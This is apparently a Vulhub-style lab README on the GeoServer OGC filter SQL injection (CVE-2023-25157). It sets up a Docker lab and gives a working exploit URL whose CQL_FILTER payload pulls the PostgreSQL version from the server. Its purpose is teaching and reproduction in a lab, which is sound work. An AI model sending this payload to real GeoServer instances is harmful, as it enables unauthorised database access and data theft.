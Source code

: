 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

|| 화이트햇 스쿨 3기 - 35반 손예은

GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In the version prior to 2.22.1 and 2.21.4, there is a SQL injection issue that was found in the filter and function expressions defined by the Open Geospatial Consortium (OGC) standards.

References:

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## Vulnerable environment

Execute following command to start a GeoServer instance 2.22.1:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.

## Exploit

First of all, you have to find a existing workspace that contains PostGIS datastore before you exploit the vulnerability. Vulhub's GeoServer instance already have a PostGIS datastore:

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

Exploit the server by this simple URL:

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```

![](1.png)

As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.
